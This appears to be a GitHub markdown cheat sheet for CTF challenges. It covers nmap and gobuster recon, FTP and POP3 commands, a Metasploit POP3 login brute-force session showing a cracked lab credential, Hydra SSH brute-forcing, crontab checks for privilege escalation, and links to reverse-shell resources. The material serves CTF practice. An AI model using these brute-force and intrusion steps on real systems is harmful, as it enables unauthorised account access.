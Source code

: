 # Jeopardy-style CTFs

## Recon

### Port Scanning
- #### **nmap: For normal port scan**
```sh
nmap -sS -sV -O <ip> >> ports.txt
```
- **For aggressive port scan we will use**
```sh
nmap -A -p <ports that we found from normal scan> >> ports.txt
```

### Directory Enumeration

- #### **Gobuster**
```sh
gobuster dir -u http://targetIp -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o directory.txt
```


### Some Important commands

- #### **Finding file Type**
```sh
file <filename>
```

- #### **Running Python Server**
```sh
python3 -m http.server 80
```

- #### **Basic Stegnography**
```sh
steghide extract -sf <PictureName>
```
- #### For seeing what is running on a file `we can check if there is any root process is running on a folder or not`
```sh
ps aux
```



### FTP Commands
- #### Downloding from  `ftp` to `local`
```sh
mget <filename>
mget *
mget *.fileextention
```
- #### Alternative of `cat`
```sh
ftp> get file.txt -
```
- 

### POP3 Commands

#### Login BruteForce using `Metasploit`
- Password and Username list needed
```sh
msf6 > use auxiliary/scanner/po
use auxiliary/scanner/pop3/pop3_login 
msf6 > use auxiliary/scanner/pop3/pop3_login 
msf6 auxiliary(scanner/pop3/pop3_login) > set rhosts <Target_Ip>
rhosts => <Target_IP>
msf6 auxiliary(scanner/pop3/pop3_login) > set user_file username.txt
user_file => username.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set pass_file password.txt
pass_file => password.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set verbose false
verbose => false
msf6 auxiliary(scanner/pop3/pop3_login) > run

[+] 10.10.226.177:110     - 10.10.226.177:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
```
- Need the Listener Now

```sh
nc <target_ip> 110
```
**Commands**
- To see list of files
```sh
list
```
- To see the files
```sh
retr <list number>
```

## Scripts


## PrivEsc

- #### **Finding info in the crontab**
```sh
cat /etc/crontab 
```

- #### Searching for `Bash History`
```sh
ls -la /etc/cron.daily/
```


## Links 

- #### **Audio Decoder**
    - [Morsecode](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

- #### **Password Decoder**
    - [Check Psychobreak](https://www.cachesleuth.com/vanity.html)

- #### Reverse Shell `These will give you ROOT` 
    - [GTFOBINS](https://gtfobins.github.io/)
    - [PentestMonkey](https://github.com/pentestmonkey)



## Brute Forcing

- #### Hydra for SSH password bruteforce
```sh
hydra -l <ssh name> -P <passwordlist> -t 6 ssh://target
```


